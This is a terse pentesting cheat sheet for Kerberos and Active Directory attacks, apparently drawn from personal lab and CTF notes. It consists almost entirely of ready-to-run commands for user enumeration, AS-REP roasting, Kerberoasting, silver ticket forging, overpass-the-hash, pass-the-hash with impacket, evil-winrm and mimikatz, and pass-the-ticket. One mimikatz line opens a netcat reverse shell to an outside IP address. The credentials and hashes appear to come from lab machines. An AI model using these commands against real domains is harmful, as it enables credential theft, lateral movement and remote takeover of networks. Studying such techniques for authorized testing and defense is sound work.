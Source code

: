 Kerberos
========================

User enumeration

```
kerbrute userenum -d domain --dc <hostname> users.txt
```

AS-REP Roasting
```
impacket-GetNPUsers -request domain/ -usersfile usernames.txt -dc-ip <hostname>
```

## Kerberoasting
```
impacket-GetUserSPNs -request domain/user:password -dc-ip <hostname>
```
## Silver Ticket

```
rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt
```

## Overpass the hash

    impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
    
    cp user.ccache /tmp/krb5cc_0
    export KRB5CCNAME=/tmp/krb5cc_0
    
    klist

## Pass the hash

### Impacket and evil-winrm
```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```

### Rubeus and Mimikatz
```
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:Powershell.exe

sekurlsa::pth /domain:flight.htb /user:R.Cold /ntlm:5607f6eafc91b3506c622f70e7a77ce0 /run:".\n.exe -e cmd 10.10.14.14 8091"
```

## Pass the ticket

```
rub.exe ptt /ticket:0-40e10000-G0$@krbtgt~FLIGHT.HTB-FLIGHT.HTB.kirbi
```

![qownnotes-media-zBGsNi](../.gitbook/assets/qownnotes-media-zBGsNi.png)